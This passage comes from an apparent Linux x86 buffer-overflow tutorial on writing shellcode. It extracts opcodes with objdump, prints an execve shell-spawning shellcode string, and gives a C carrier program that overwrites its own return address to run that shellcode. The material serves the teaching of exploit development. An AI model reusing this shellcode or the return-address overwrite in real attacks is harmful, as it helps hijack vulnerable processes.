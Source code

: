 ```bash
ld shell.o -o shell
```

Running the program we can see we get a shell.

![](https://github.com/nu11secur1ty/Linux_hardening_and_security/blob/master/Stack/Linux%20Buffer%20Overflows%20x86%20%E2%80%93%20Part%203%20(Shellcoding)/wall/7.png)


Now, we want to extract the opcodes from the executable to form our shellcode. We will use objdump utility to display the object file.

![](https://github.com/nu11secur1ty/Linux_hardening_and_security/blob/master/Stack/Linux%20Buffer%20Overflows%20x86%20%E2%80%93%20Part%203%20(Shellcoding)/wall/8.png)


Here, we can see in the right side, the assembly instructions that we wrote and in the left side opcodes for those instructions. Now we just have to copy these opcodes and execute it from C program which will act as a carrier for our shellcode.

Our Shellcode now is:

“\xc7\x05\xa8\x90\x04\x08\xa0\x90\x04\x08\xb8\x0b\x00\x00\x00\xbb\xa0\x90\x04\x08\xb9\xa8\x90\x04\x08\xba\xac\x90\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xbb\x0a\x00\x00\x00\xcd\x80”

As we already know we cannot execute shellcode directly, we will be needing a program to execute it for us. Shellcode is always loaded into the virtual address space of the target process which we want to exploit. Shellcode cant have its own process space as it cant be executed directly and it doesn’t makes sense to load the shellcode in any other address space other than the vulnerable software.

Just for demonstration we will load the shellcode in the address space of our own program and see whether it gets executed or not.

We will write a small C program which will execute our shellcode:



```c
#include<stdio.h>

char shellcode[] = "\xc7\x05\xa8\x90\x04\x08\xa0\x90\x04\x08"

"\xb8\x0b\x00\x00\x00\xbb\xa0\x90\x04\x08"

"\xb9\xa8\x90\x04\x08\xba\xac\x90\x04\x08"

"\xcd\x80\xb8\x01\x00\x00\x00\xbb\x0a\x00"

"\x00\x00\xcd\x80";

int main()

{

int *ret;

ret = (int *)&ret + 2;

(*ret) = (int)shellcode;

}
```
